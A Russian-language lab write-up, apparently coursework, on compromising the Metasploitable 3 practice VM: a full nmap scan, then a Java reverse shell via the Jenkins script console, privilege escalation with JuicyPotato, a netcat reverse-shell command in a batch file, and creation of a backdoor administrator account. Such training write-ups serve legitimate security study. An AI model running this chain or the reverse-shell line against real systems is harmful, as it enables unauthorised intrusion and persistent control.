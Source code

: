 Получить доступ к Metasploitable 3 используя вашу модификацию эксплойта [https://github.com/worawit/MS17-010](https://github.com/worawit/MS17-010)
Вариант повышенной сложности: обеспечить себе доступ к системе не выполняя "вредоносного" кода и убедиться в работоспособности указанного метода: например, через добавление нового администратора и включение доступа по RDP для него или через получение учетных данных из sam и system.


>[!tip]- nmap
>PORT      STATE SERVICE              VERSION
21/tcp    open  ftp                  Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp    open  ssh                  OpenSSH 7.1 (protocol 2.0)
| ssh-hostkey: 
|   2048 e8:ae:53:fc:31:b4:e6:53:68:89:d6:80:b5:8f:63:4e (RSA)
|_  521 30:d9:ff:b1:53:a3:a7:8d:13:2f:4d:50:4c:8a:1b:da (ECDSA)
80/tcp    open  http                 Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc                Microsoft Windows RPC
139/tcp   open  netbios-ssn          Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds         Windows Server 2008 R2 Standard 7601 Service Pack 1 microsoft-ds
1617/tcp  open  java-rmi             Java RMI
| rmi-dumpregistry: 
|   jmxrmi
|     javax.management.remote.rmi.RMIServerImpl_Stub
|     @10.0.0.3:49161
|     extends
|       java.rmi.server.RemoteStub
|       extends
|_        java.rmi.server.RemoteObject
3306/tcp  open  mysql                MySQL 5.5.20-log
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.20-log
|   Thread ID: 8
|   Capabilities flags: 63487
|   Some Capabilities: FoundRows, Speaks41ProtocolOld, Support41Auth, Speaks41ProtocolNew, LongColumnFlag, IgnoreSpaceBeforeParenthesis, DontAllowDatabaseTableColumn, ODBCClient, IgnoreSigpipes, ConnectWithDatabase, InteractiveClient, SupportsTransactions, SupportsLoadDataLocal, SupportsCompression, LongPassword, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: fQB81+#n"Z!5'_.b(;3,
|_  Auth Plugin Name: mysql_native_password
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2024-12-05T12:05:26+00:00; +1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: VAGRANT-2008R2
|   NetBIOS_Domain_Name: VAGRANT-2008R2
|   NetBIOS_Computer_Name: VAGRANT-2008R2
|   DNS_Domain_Name: vagrant-2008R2
|   DNS_Computer_Name: vagrant-2008R2
|   Product_Version: 6.1.7601
|_  System_Time: 2024-12-05T12:04:37+00:00
| ssl-cert: Subject: commonName=vagrant-2008R2
| Not valid before: 2024-12-01T11:05:10
|_Not valid after:  2025-06-02T11:05:10
3700/tcp  open  giop                 CORBA naming service
3820/tcp  open  ssl/giop             CORBA naming service
|_ssl-date: 2024-12-05T12:05:26+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=localhost/organizationName=Oracle Corporation/stateOrProvinceName=California/countryName=US
| Not valid before: 2013-05-15T05:33:38
|_Not valid after:  2023-05-13T05:33:38
3920/tcp  open  ssl/exasoftport1?
|_ssl-date: 2024-12-05T12:05:26+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=localhost/organizationName=Oracle Corporation/stateOrProvinceName=California/countryName=US
| Not valid before: 2013-05-15T05:33:38
|_Not valid after:  2023-05-13T05:33:38
4848/tcp  open  ssl/http             Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)
|_http-title: Site doesn't have a title (text/html;charset=UTF-8).
|_ssl-date: 2024-12-05T12:05:26+00:00; +1s from scanner time.
|_http-server-header: GlassFish Server Open Source Edition  4.0 
| ssl-cert: Subject: commonName=localhost/organizationName=Oracle Corporation/stateOrProvinceName=California/countryName=US
| Not valid before: 2013-05-15T05:33:38
|_Not valid after:  2023-05-13T05:33:38
5985/tcp  open  http                 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7676/tcp  open  java-message-service Java Message Service 301
8009/tcp  open  ajp13                Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8019/tcp  open  qbdb?
8020/tcp  open  http                 Apache httpd
|_http-title: Site doesn't have a title (text/html;charset=UTF-8).
|_http-server-header: Apache
| http-methods: 
|_  Potentially risky methods: PUT DELETE
8022/tcp  open  http                 Apache Tomcat/Coyote JSP engine 1.1
| http-methods: 
|_  Potentially risky methods: PUT DELETE
|_http-title: Site doesn't have a title (text/html;charset=UTF-8).
|_http-server-header: Apache-Coyote/1.1
8027/tcp  open  papachi-p2p-srv?
8028/tcp  open  postgresql           PostgreSQL DB
8031/tcp  open  ssl/unknown
8032/tcp  open  desktop-central      ManageEngine Desktop Central DesktopCentralServer
8080/tcp  open  http                 Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: GlassFish Server - Server Running
| http-methods: 
|_  Potentially risky methods: PUT DELETE TRACE
|_http-server-header: GlassFish Server Open Source Edition  4.0 
8181/tcp  open  ssl/http             Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)
| http-methods: 
|_  Potentially risky methods: PUT DELETE TRACE
|_ssl-date: 2024-12-05T12:05:26+00:00; 0s from scanner time.
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=localhost/organizationName=Oracle Corporation/stateOrProvinceName=California/countryName=US
| Not valid before: 2013-05-15T05:33:38
|_Not valid after:  2023-05-13T05:33:38
|_http-server-header: GlassFish Server Open Source Edition  4.0 
8282/tcp  open  http                 Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/8.0.33
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
8383/tcp  open  http                 Apache httpd
|_http-server-header: Apache
| http-methods: 
|_  Potentially risky methods: PUT DELETE
|_http-title: 400 Bad Request
8443/tcp  open  ssl/https-alt?
8444/tcp  open  desktop-central      ManageEngine Desktop Central DesktopCentralServer
8484/tcp  open  http                 Jetty winstone-2.8
|_http-server-header: Jetty(winstone-2.8)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Dashboard [Jenkins]
8585/tcp  open  http                 Apache httpd 2.2.21 ((Win64) PHP/5.3.10 DAV/2)
|_http-title: WAMPSERVER Homepage
|_http-server-header: Apache/2.2.21 (Win64) PHP/5.3.10 DAV/2
8686/tcp  open  java-rmi             Java RMI
| rmi-dumpregistry: 
|   vagrant-2008R2/7676/jmxrmi
|     javax.management.remote.rmi.RMIServerImpl_Stub
|     @10.0.0.3:49304
|     extends
|       java.rmi.server.RemoteStub
|       extends
|         java.rmi.server.RemoteObject
|   jmxrmi
|     javax.management.remote.rmi.RMIServerImpl_Stub
|     @10.0.0.3:8686
|     extends
|       java.rmi.server.RemoteStub
|       extends
|_        java.rmi.server.RemoteObject
9200/tcp  open  wap-wsp?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=UTF-8
|     Content-Length: 80
|     handler found for uri [/nice%20ports%2C/Tri%6Eity.txt%2ebak] and method [GET]
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: application/json; charset=UTF-8
|     Content-Length: 316
|     "status" : 200,
|     "name" : "Jebediah Guthrie",
|     "version" : {
|     "number" : "1.1.1",
|     "build_hash" : "f1585f096d3f3985e73456debdc1a0745f512bbc",
|     "build_timestamp" : "2014-04-16T14:27:12Z",
|     "build_snapshot" : false,
|     "lucene_version" : "4.7"
|     "tagline" : "You Know, for Search"
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Content-Type: text/plain; charset=UTF-8
|     Content-Length: 0
|   RTSPRequest, SIPOptions: 
|     HTTP/1.1 200 OK
|     Content-Type: text/plain; charset=UTF-8
|_    Content-Length: 0
9300/tcp  open  vrace?
47001/tcp open  http                 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc                Microsoft Windows RPC
49153/tcp open  msrpc                Microsoft Windows RPC
49154/tcp open  msrpc                Microsoft Windows RPC
49156/tcp open  msrpc                Microsoft Windows RPC
49158/tcp open  unknown
49161/tcp open  java-rmi             Java RMI
49162/tcp open  tcpwrapped
49182/tcp open  msrpc                Microsoft Windows RPC
49245/tcp open  msrpc                Microsoft Windows RPC
49276/tcp open  ssh                  Apache Mina sshd 0.8.0 (protocol 2.0)
49277/tcp open  jenkins-listener     Jenkins TcpSlaveAgentListener
49304/tcp open  java-rmi             Java RMI
49315/tcp open  unknown
49316/tcp open  unknown
49317/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9200-TCP:V=7.94SVN%I=7%D=12/5%Time=67519636%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,193,"HTTP/1\.0\x20200\x20OK\r\nContent-Type:\x20application
SF:/json;\x20charset=UTF-8\r\nContent-Length:\x20316\r\n\r\n{\r\n\x20\x20\
SF:"status\"\x20:\x20200,\r\n\x20\x20\"name\"\x20:\x20\"Jebediah\x20Guthri
SF:e\",\r\n\x20\x20\"version\"\x20:\x20{\r\n\x20\x20\x20\x20\"number\"\x20
SF::\x20\"1\.1\.1\",\r\n\x20\x20\x20\x20\"build_hash\"\x20:\x20\"f1585f096
SF:d3f3985e73456debdc1a0745f512bbc\",\r\n\x20\x20\x20\x20\"build_timestamp
SF:\"\x20:\x20\"2014-04-16T14:27:12Z\",\r\n\x20\x20\x20\x20\"build_snapsho
SF:t\"\x20:\x20false,\r\n\x20\x20\x20\x20\"lucene_version\"\x20:\x20\"4\.7
SF:\"\r\n\x20\x20},\r\n\x20\x20\"tagline\"\x20:\x20\"You\x20Know,\x20for\x
SF:20Search\"\r\n}\n")%r(HTTPOptions,4F,"HTTP/1\.0\x20200\x20OK\r\nContent
SF:-Type:\x20text/plain;\x20charset=UTF-8\r\nContent-Length:\x200\r\n\r\n"
SF:)%r(RTSPRequest,4F,"HTTP/1\.1\x20200\x20OK\r\nContent-Type:\x20text/pla
SF:in;\x20charset=UTF-8\r\nContent-Length:\x200\r\n\r\n")%r(FourOhFourRequ
SF:est,A9,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/pla
SF:in;\x20charset=UTF-8\r\nContent-Length:\x2080\r\n\r\nNo\x20handler\x20f
SF:ound\x20for\x20uri\x20\[/nice%20ports%2C/Tri%6Eity\.txt%2ebak\]\x20and\
SF:x20method\x20\[GET\]")%r(SIPOptions,4F,"HTTP/1\.1\x20200\x20OK\r\nConte
SF:nt-Type:\x20text/plain;\x20charset=UTF-8\r\nContent-Length:\x200\r\n\r\
SF:n");
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; Device: remote management; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-12-05T12:04:41
|_  start_date: 2024-12-05T11:43:54
| smb-os-discovery: 
|   OS: Windows Server 2008 R2 Standard 7601 Service Pack 1 (Windows Server 2008 R2 Standard 6.1)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: vagrant-2008R2
|   NetBIOS computer name: VAGRANT-2008R2\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-12-05T04:04:35-08:00
| smb-security-mode: 
|   account_used: blank
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: VAGRANT-2008R2, NetBIOS user: unknown, NetBIOS MAC: 08:00:27:47:6e:c3 (Oracle VirtualBox v
|_clock-skew: mean: 53m20s, deviation: 2h40m00s, median: 0s

проверим сайты (на порту 8484)
![](../../../attachment/Pasted%20image%2020241205174113.png)
и видим что у нас есть доступ
исследуем сайт и найдем Script Console. Изучив ее мы можем сгенерировать rev shell на java 
![](../../../attachment/Pasted%20image%2020241205174210.png)

Запускаем и получаем соединение. Проверим кто мы
![](../../../attachment/Pasted%20image%2020241205174248.png)

![](../../../attachment/Pasted%20image%2020241205174301.png)

у нас есть SeImpersonatePrivilege и значит что может сработать одна из картошек

путем проб и ошибок находим что juicypotato работает. Значит попробуем получить rev shell от системы

Скачаем JuicyPotato,nc64.exe и создадим unl.bat в котором пропишем "С:\tools\nc.exe 192.168.56.111 1333 -e bash"

Загружаем все на metasploitable и пробуем запустить
![](../../../attachment/Pasted%20image%2020241205174549.png)

Получаем обратный шелл от системы
![](../../../attachment/Pasted%20image%2020241205174637.png)
![](../../../attachment/Pasted%20image%2020241205174651.png)

Создадим юзера с правами админа hahacker и паролем hacker1333
![](../../../attachment/Pasted%20image%2020241205174735.png)

Проверим его работу с помощью ssh
![](../../../attachment/Pasted%20image%2020241205174809.png)